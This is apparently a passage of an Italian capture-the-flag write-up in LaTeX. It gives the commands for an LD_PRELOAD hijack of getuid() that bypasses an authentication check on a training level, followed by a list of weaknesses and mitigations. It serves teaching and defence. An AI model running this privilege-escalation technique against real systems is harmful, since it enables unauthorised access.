 \subsection{Sintesi dei comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # creiamo il file getuid.c
    # compiliamo getuid.c
    gcc -shared -fPIC -o getuid.so getuid.c
    # carichiamo la nuova getuid.so
    export LD_PRELOAD=./getuid.so
    # copiamo flag13 per spegnere SETUID
    cp /home/flag13/flag13 /home/level13
    # eseguiamo flag13 dalla directory level13
    /home/level13/flag13
\end{lstlisting} 
Otteniamo il token (esempio sulla mia macchina: b705702b-76a8-42b0-8844-3adabbe5ac58).
Accediamo con il token come flag13, eseguiamo /bin/getflag e vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item Privilegi di esecuzione ingiustamente elevati.
    \item Versione di bash che non abbassa i privilegi di esecuzione.
    \item Manipolazione di una variabile di ambiente (\textbf{LD\_PRELOAD}) per sostituire \textbf{getuid()} con una funzione che aggira il controllo di autenticazione.
    \item Bypass dell'autenticazione tramite spoofing: L'attaccante può riprodurre il token di autenticazione di un altro utente.
\end{itemize}
\subsection{Mitigazioni}
\begin{enumerate}
    \item Spegnere bit SETUID:
    \begin{itemize}
        \item autenticarsi come root e avviare una shell con il comando: \begin{lstlisting}[style=bashstyle] 
        sudo -i
        \end{lstlisting}
        \item spegnere SETUID con il comando: \begin{lstlisting}[style=bashstyle] 
        chmod u-s /home/flag13/flag13
        \end{lstlisting}   
        \item Eseguiamo flag13 e noteremo che l'attacco non va a buon fine. 
    \end{itemize}
    \item Non ha senso ripulire la variabile LD\_PRELOAD come fatto per PATH in level01, perché LD\_PRELOAD agisce prima del caricamento del programma. Infatti nel momento in cui il processo esegue putenv() su LD\_PRELOAD, la funzione getuid() è già stata iniettata da tempo!
    La mitigazione qui è banale, ovvero non rendere noto il valore 1000 all'attaccante.
\end{enumerate}


